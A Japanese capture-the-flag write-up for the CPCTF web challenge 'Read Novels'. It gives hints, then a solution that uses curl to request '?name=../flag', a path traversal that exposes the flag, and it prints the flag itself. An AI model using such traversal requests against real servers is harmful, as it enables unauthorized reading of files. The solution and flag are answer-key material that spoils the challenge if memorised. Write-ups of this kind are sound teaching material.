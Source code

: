 # Read Novels:Web:50.00pts
小説が読めるサイトを見つけたぞ！  
これ小説以外も見れるじゃん...  
サイト：[https://read-novels.web.cpctf.space](https://read-novels.web.cpctf.space/)  
配布ファイル：[https://files.cpctf.space/read-novels.zip](read-novels.zip)  

**Hint1**  
`app.py`をよく読んでみましょう。`filepath`に小説以外のファイルを入れるにはどうしたらよいでしょうか？  
**Hint2**  
パストラバーサル攻撃を行うことで、本来想定されていないファイルパスを開くことが出来るようになります。  
**Hint3 (解法)**  
`filepath`を`./novel/../flag`にするために、[https://read-novels.web.cpctf.space/novel?name=../flag](https://read-novels.web.cpctf.space/novel?name=../flag) に GET リクエストを飛ばしてみましょう。  

# Solution
URLとソースが渡される。  
アクセスすると、小説が読めるようだ。  
![site.png](site/site.png)  
リンクのURLクエリ`name`に小説名が指定されており、パストラバーサルが怪しい。  
```bash
$ curl 'https://read-novels.web.cpctf.space/novel?name=sanshiro'
<!DOCTYPE html>
<html>
  <head>
    <title>sanshiro</title>
    <style></style>
  </head>
  <body style="white-space: pre-wrap">
    <h1>sanshiro</h1>
    三四郎
夏目漱石
~~~
```
一つ上にたどってみる。  
```bash
$ curl 'https://read-novels.web.cpctf.space/novel?name=../flag'
<!DOCTYPE html>
<html>
  <head>
    <title>../flag</title>
    <style></style>
  </head>
  <body style="white-space: pre-wrap">
    <h1>../flag</h1>
    CPCTF{P4th_tr4v3rs41_15_v3ry_d4ng3r0u5}
  </body>
</html>
```
flagが得られた(実は開催前にドメインが見えておりflagが取得できていた)。  

## CPCTF{P4th_tr4v3rs41_15_v3ry_d4ng3r0u5}